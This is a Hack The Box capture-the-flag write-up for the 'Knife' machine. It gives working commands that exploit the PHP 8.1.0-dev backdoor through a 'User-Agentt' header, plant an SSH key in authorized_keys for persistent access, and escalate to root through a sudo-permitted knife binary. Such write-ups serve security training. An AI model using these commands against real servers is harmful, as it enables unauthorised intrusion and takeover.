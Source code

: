 ```yaml
---
tags:
  - linux
---
```

# HTB: [Knife](https://app.hackthebox.com/machines/Knife)

> [!tip]- Summary with Spoilers
> - This machine was running PHP version `8.1.0-dev`, which includes a known backdoor vulnerability.
> - I used a crafted `User-Agentt` header to achieve RCE and gain access as the `james` user.
> - Privilege escalation was achieved by exploiting the `knife` command with `sudo`, following the [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) instructions for a root shell.

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 12:37 CST
Nmap scan report for 10.10.10.242
Host is up (0.12s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the PHP version:

```console
$ curl -si http://$t | grep X-Pow
X-Powered-By: PHP/8.1.0-dev
```

## Exploitation

[PHP version 8.1.0-dev has a remote code execution vulnerability](https://www.exploit-db.com/exploits/49933). It's actually a malicious backdoor that was quickly discovered and removed in 2021.[^1]

It is easily exploited using a sneaky HTTP header:

```console
$ curl -s -H 'User-Agentt: zerodiumsystem("id");' http://$t  | head -n1
uid=1000(james) gid=1000(james) groups=1000(james)

$ curl -s -H 'User-Agentt: zerodiumsystem("cat /home/james/user.txt");' http://$t  | head -n1
a5c3a0[...]
```

I could also create a reverse-shell using the technique above. But why do that when I could get a proper SSH login shell?

```console
$ curl -si -H 'User-Agentt: zerodiumsystem("echo ssh-ed25519\ AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T\ e@notahacker >> /home/james/.ssh/authorized_keys");' http://$t  | head -n1
HTTP/1.1 200 OK

$ ssh james@$t
The authenticity of host '10.10.10.242 (10.10.10.242)' can't be established.
ED25519 key fingerprint is SHA256:U3tuGrGxSv//jAzSQDRiUNlQnE6LWwounrcc2Bd0qC4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.242' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[...]

james@knife:~$ cat .ssh/authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T e@notahacker
```

## Privilege Escalation

```console
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

`knife` is a utility used with [Chef](https://docs.chef.io/workstation/knife/).

```console
james@knife:~$ /usr/bin/knife --help
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
[...]
```

There is an [entry for knife in GTFOBins](https://gtfobins.github.io/gtfobins/knife/). Like so:

```console
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
## id
uid=0(root) gid=0(root) groups=0(root)
## cat /root/root.txt
a5c3a0[...]
```
